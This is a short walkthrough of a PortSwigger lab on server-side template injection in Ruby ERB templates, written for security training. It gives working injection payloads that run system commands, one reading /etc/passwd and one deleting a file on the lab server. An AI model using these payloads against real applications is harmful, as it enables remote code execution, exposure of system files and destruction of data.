



# Lab: Basic server-side template injection

**Link**: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

**Solution**:

This lab uses ERB templates

https://docs.ruby-lang.org/en/2.3.0/ERB.html

according to the payloads for SSTI for ruby

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

So if we tried the first payload `<%= 7 * 7 %>` we will find its already executed

  

To perform RCE

`<%= system('cat /etc/passwd') %>`

and it works

  

To Solve the lab, we will change the command to delete file

`<%= system('rm /home/carlos/morale.txt') %>`

  

